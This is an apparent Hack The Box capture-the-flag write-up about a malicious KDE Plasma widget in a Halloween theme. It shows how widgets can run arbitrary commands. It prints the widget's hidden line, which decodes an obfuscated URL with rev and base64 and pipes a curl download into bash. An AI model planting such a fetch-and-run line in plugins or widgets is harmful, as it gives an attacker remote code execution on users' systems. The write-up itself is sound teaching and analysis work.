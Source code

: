 ![](assets/banner.png)

<img src='assets/htb.png' style='margin-left: 20px; zoom: 80%;' align=left /> <font size='10'>Sp00ky Theme</font>

05<sup>th</sup> Oct 2024 / Document No. D24.102.XX

Prepared By: c4n0pus

Challenge Author(s): c4n0pus

Difficulty: <font color=Green>Very Easy</font>

Classification: Official

# Synopsis

* A very easy challenge that features a malicious Plasma 6 plasmoid (widget) that executes rogue commands

## Description

* I downloaded a very nice haloween global theme for my Plasma installation and a couple of widgets! It was supposed to keep the bad spirits away while I was improving my ricing skills... Howerver, now strange things are happening and I can't figure out why...

## Skills Required

* N/A

## Skills Learned

* Plasma Themes
* Obscure Linux Backdoors

# Enumeration

We are given a zip file that contains a folder called `plasma` and inside it contains a couple of directories

* `look-and-feel`
* `plasmoids`
* `desktoptheme`

The `look-and-feel` directory stores the Global Theme configuration for each global theme.
The `plasmoid` directory contains the downloaded widgets (either manually or as a dependency for a global theme)

Recendly there was quite a big controversy where a user installed a Global Theme and it ended up deleting their `$HOME` folder! More about it, and how it happened [here](https://www.reddit.com/r/openSUSE/comments/1biunsl/hacked_installed_a_global_theme_it_erased_all_my/)

As it turns out, the widgets have a direct access to execute arbitrary commands because that's inherently their function! ie: getting CPU usage using `cat /proc/stat` and then aggregating it using `awk` and passing it to the widget for styling and display.

But what happens if a malicious actor creates a theme and publishes it without any vetting? The above theme did not have any malicious intentions (allegedly), just a versioning issue that created a weird command line that removed the home folder. Regardless, the issue here was the lack of vetting, might as well being a malicious command.

# Solution

Navigaing into the `plasmoids` folder and then into the `netspeedWidget` folder we find the `metadata.json` file and `contents` folder. After digging around we find these two lines in the `utils.js` file:

```js
const NET_DATA_SOURCE =
    "awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev";

const PLASMOID_UPDATE_SOURCE = 
    "UPDATE_URL=$(echo =0nbzAHc0g2XuRzYfRXMf9TIzNTbzgGdflnYfR2M3B3eCRFS | rev | base64 -d); curl $UPDATE_URL:1992/update_sh | bash"
```

The first one aggregates all traffic from all network interfaces as so:

```bash
$> awk -v OFS=, 'NR > 2 { print substr($1, 1, length($1)-1), $2, $10 }' /proc/net/dev

lo,78647312,78647312
wlo1,12638777329,734054168
tailscale0,2408137,3591611
vboxnet0,0,56383
```

Then it's up to the widget to parse it furhter.

The next command seemingly defines an update URL and then curls some data from it and pipes it to bash!

Running the command that creates the URL reveals the flag!

```bash
$> echo =0nbzAHc0g2XuRzYfRXMf9TIzNTbzgGdflnYfR2M3B3eCRFS | rev | base64 -d

HTB{REDACTED}
```

In responde the KDE devs removed the Theme in Question, issued a [response](http://blog.davidedmundson.co.uk/blog/kde-store-content/) and urged users to report any wrongdoing in the KDE Store.
